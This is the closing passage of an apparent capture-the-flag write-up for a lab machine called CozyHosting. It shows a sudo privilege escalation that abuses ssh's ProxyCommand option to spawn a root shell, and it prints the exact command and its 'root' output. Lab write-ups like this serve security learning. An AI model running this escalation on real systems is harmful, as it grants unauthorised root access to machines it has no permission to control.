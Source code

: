 We can exploit this by using ssh's ProxyCommand feature to execute commands. We will need to direct both stdin and stdout to stderr
 in order to see our commands and responses within our current session. Payload courtesy of gtfobins.

```
josh@cozyhosting:/tmp$ sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/tmp# whoami
root
```

And with that, CozyHosting is owned.